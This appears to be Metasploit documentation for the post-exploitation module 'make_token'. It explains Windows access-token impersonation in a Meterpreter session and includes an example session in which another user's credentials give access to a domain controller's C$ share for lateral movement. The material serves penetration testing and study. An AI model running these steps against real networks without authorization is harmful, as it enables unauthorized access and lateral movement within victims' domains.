 ## Vulnerable Application
In its default configuration, this module creates a new network security context with the specified
logon data (username, domain and password). Under the hood, Meterpreter's access token is cloned, and
a new logon session is created and linked to that token. The token is then impersonated to acquire
the new network security context. This module has no effect on local actions - only on remote ones
(where the specified credential material will be used). This module does not validate the credentials
specified.

## Verification Steps

1. Start msfconsole
2. Get a Meterpreter session
3. Do: `use post/windows/manage/make_token`
4. Set the `USERNAME`, `PASSWORD` and `DOMAIN` options
5. Run the module

## Options
### USERNAME
Username to use

### PASSWORD
Password to use

### DOMAIN
Domain to use

### LOGONTYPE
The type of logon operation to perform (defaults to `LOGON32_LOGON_NEW_CREDENTIALS`)

### LOGONTYPE
This module defaults to `LOGON32_LOGON_NEW_CREDENTIALS` so as to mimic the behaviour of Cobalt Strike's
[`make_token`](https://www.cobaltstrike.com/blog/windows-access-tokens-and-alternate-credentials/) command.
However, any valid LOGONTYPE for the LogonUser function can be specified. More details can be found at
<https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonusera>, by checking the
`dwLogonType` flag.

## Scenarios
This module can be used as an alternative to modules like `post/windows/manage/run_as` or
`post/windows/manage/run_as_psh`, which require the creation of a new process. This module impersonates the specified
credentials in the current Meterpreter session, which can be leveraged to enum or move laterally to other systems on
behalf of the impersonated user.

### Limitations
In its default configuration, this module does not require privileges to create a new security context (new access
token). Despite of this, some actions with the new token might require privileges. For example, in order to create a
process with an access token - with functions like [CreateProcessAsUser](https://learn.microsoft.com/en-
us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) or
[CreateProcessWithToken](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw)
- administrative privileges are needed. This means that if you use this module with a non-privileged user, your new
processes will not inherit `make_token`'s security context.

### Example

```
meterpreter > getuid
Server username: CAP\vegeta
meterpreter > ls \\\\dc01\\C$
[-] stdapi_fs_stat: Operation failed: Access is denied.
meterpreter > run post/windows/manage/make_token username=bulma_da password=Patatas123 domain=capsule.corp

[*] Executing rev2self to revert any previous token impersonations
[*] Executing LogonUserA with the flag LOGON32_LOGON_NEW_CREDENTIALS to create a new security context for capsule.corp\bulma_da
[*] Impersonating the new security context...
[+] The session should now run with the new security context!
[!] Remember that this will not have any effect on local actions (i.e. getuid will still show the original user)
meterpreter > ls \\\\dc01\\C$
Listing: \\dc01\C$
==================

Mode              Size       Type  Last modified              Name
----              ----       ----  -------------              ----
040777/rwxrwxrwx  0          dir   2021-05-08 10:20:24 +0200  $Recycle.Bin
040777/rwxrwxrwx  0          dir   2023-05-19 12:06:35 +0200  $WinREAgent
040777/rwxrwxrwx  0          dir   2023-05-19 09:44:10 +0200  Documents and Settings
100666/rw-rw-rw-  12288      fil   2023-06-06 09:25:56 +0200  DumpStack.log.tmp
040777/rwxrwxrwx  0          dir   2021-05-08 10:20:24 +0200  PerfLogs
040555/r-xr-xr-x  0          dir   2023-05-19 09:53:15 +0200  Program Files
040777/rwxrwxrwx  0          dir   2021-05-08 11:40:15 +0200  Program Files (x86)
040777/rwxrwxrwx  0          dir   2023-05-19 09:44:33 +0200  ProgramData
040777/rwxrwxrwx  0          dir   2023-05-19 09:44:10 +0200  Recovery
040777/rwxrwxrwx  0          dir   2023-05-19 09:55:58 +0200  System Volume Information
040555/r-xr-xr-x  0          dir   2023-05-19 09:44:15 +0200  Users
040777/rwxrwxrwx  0          dir   2023-05-19 09:52:08 +0200  Windows
100666/rw-rw-rw-  402653184  fil   2023-06-06 09:25:56 +0200  pagefile.sys
```
